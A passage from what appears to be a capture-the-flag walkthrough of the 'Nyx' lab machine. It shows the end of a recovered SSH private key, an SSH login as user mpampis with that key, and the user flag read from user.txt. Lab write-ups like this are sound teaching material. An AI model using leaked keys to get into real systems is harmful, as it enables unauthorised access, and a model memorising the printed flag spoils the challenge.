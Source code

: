 ~~~
KXo/rW1gDQ8R+yFNAAAAC21wYW1waXNAbnl4AQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
</pre>
~~~

Give it appropriate rights and use it to connect via SSH on the target:

~~~
kali@kali:/data/Nyx/files$ chmod 400 mpampis.key 
kali@kali:/data/Nyx/files$ ssh -i mpampis.key mpampis@nyx.box
The authenticity of host 'nyx.box (172.16.222.140)' can't be established.
ECDSA key fingerprint is SHA256:cWZ98h8RGIn8QlSU1peM8ADzbWfZAK94zE4P59yvPq8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nyx.box,172.16.222.140' (ECDSA) to the list of known hosts.
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
███   ███ ███▄▄▄███    ███  ▐███    
███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
███   ███ ▄██   ███    ████▀██▄     
███   ███ ███   ███   ▐███  ▀███    
███   ███ ███   ███  ▄███     ███▄  
 ▀█   █▀   ▀█████▀  ████       ███▄ 
Last login: Fri Aug 14 19:15:05 2020 from 192.168.1.18
~~~

## User flag

Let's get the user flag:

~~~
mpampis@nyx:~$ cd
mpampis@nyx:~$ ls -la
total 36
drwxr-xr-x 4 mpampis mpampis 4096 Aug 14 19:42 .
drwxr-xr-x 3 root    root    4096 Aug 14 17:13 ..
-rw------- 1 mpampis mpampis  490 Aug 14 19:47 .bash_history
-rw-r--r-- 1 mpampis mpampis  220 Aug 14 17:13 .bash_logout
-rw-r--r-- 1 mpampis mpampis 3526 Aug 14 17:13 .bashrc
drwxr-xr-x 3 mpampis mpampis 4096 Aug 14 18:07 .local
-rw-r--r-- 1 mpampis mpampis  807 Aug 14 17:13 .profile
drwx------ 2 mpampis mpampis 4096 Aug 14 18:07 .ssh
-rw-r--r-- 1 root    root      33 Aug 14 17:27 user.txt
mpampis@nyx:~$ cat user.txt 
2cb67a256530577868009a5944d12637
~~~

# Root flag

## Checking privileges

